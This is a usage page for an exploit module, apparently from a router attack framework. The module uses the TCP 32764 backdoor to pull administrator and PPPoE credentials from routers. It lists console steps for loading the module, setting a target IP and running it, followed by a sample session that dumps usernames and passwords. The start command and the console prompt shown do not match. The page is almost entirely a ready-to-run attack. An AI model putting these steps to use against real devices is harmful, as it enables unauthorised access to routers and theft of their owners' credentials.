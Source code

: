 ## Description

Module exploits backdoor functionality that allows fetching credentials for administrator user. 

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use exploits/routers/multi/tcp_32764_info_disclosure`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If device is vulnerable administrative credentials are returned.

## Scenarios

```
rsf > use exploits/routers/multi/tcp_32764_info_disclosure
rsf (TCP-32764 Info Disclosure) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (TCP-32764 Info Disclosure) > run
[*] Running module...
[+] Target is vulnerable
[*] Connection established

   Parameter          Value
   ---------          -----
   http_username      admin
   http_password      admin
   pppoe_username     username
   pppoe_password     1234567890
   pppoa_username     Guest
   log_login          0
```
